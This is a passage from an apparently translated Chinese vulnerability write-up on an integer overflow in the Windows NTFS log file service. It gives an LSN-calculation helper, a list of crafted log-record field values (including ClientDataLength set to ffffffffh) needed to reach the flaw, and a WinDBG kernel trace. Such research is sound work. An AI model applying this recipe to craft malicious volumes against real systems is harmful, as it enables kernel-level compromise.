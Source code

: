 ```
uint64_t offset_to_lsn(uint64_t page_number, uint64_t page_offset, uint64_t sequence_number, PLFS_RESTART_AREA restart_area) {
  auto absolute_offset = page_number * kLogPageSize + page_offset;
  return (absolute_offset >> 3) | (sequence_number << (64 - restart_area->SeqNumberBits));
};
```  
  
让我们将所有内容整合起来，列举出触发整数溢出所需的修改：  
- 修复 LastKnownLsn  
以防止调用 ntfs!LfsCaptureClientRestartArea  
  
- 修复 LFS_CLIENT_RECORD->OldestLsn  
以满足 ntfs!LfsReadLogRecord  
中的检查，该检查要求 TableLsn  
小于 OldestLsn  
。此修复允许我们访问 LastLogPage  
以下的任何日志页  
  
- 使用所需值初始化 RESTART_AREA->OpenAttributeTableLength  
和 RESTART_AREA->OpenAttributeTableLsn  
  
- 在 RESTART_AREA->OpenAttributeTableLsn  
指向的偏移处初始化 LFS_RECORD_HEADER  
  
- 将 LFS_RECORD_HEADER->ClientDataLength  
设置为 ffffffffh  
  
如果我们完成所有这些修复并正确构造 LFS_RECORD_HEADER  
，就能到达漏洞代码。下面是从 **WinDBG**  
中截取的展示整数溢出的跟踪片段。  
```
1: kd> p
rax=fffffa07e5d6ab78 rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=0000000000000001 rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c549b rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=ffffc60b736450e0  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
Ntfs!LfsFindLogRecord+0x63:
fffff801`1e9c549b 448b4118        mov     r8d,dword ptr [rcx+18h] ds:002b:ffff908c`fdcdc218=ffffffff ; Here NTFS.sys loads ClientDataLength field into r8d
1: kd> p
rax=fffffa07e5d6ab78 rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=0000000000000001 rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c549f rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
Ntfs!LfsFindLogRecord+0x67:
fffff801`1e9c549f 0fb75760        movzx   edx,word ptr [rdi+60h] ds:002b:ffffc60b`7873cdc0=0030 ; Here NTFS.sys loads RecordHeaderLength field into edx
1: kd> p
rax=fffffa07e5d6ab78 rbx=0000000000183840 rcx=ffff908cfdcdc200
rdx=0000000000000030 rsi=fffffa07e5d6ab70 rdi=ffffc60b7873cd60
rip=fffff8011e9c54a3 rsp=fffffa07e5d6a930 rbp=fffffa07e5d6b8e0
 r8=00000000ffffffff  r9=0000000000000000 r10=0000000000000000
r11=0000000000000002 r12=ffff8002d04d9eb8 r13=ffff8002d0fbe4f0
r14=fffffa07e5d6ab78 r15=fffffa07e5d6aba8
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
Ntfs!LfsFindLogRecord+0x6b:
```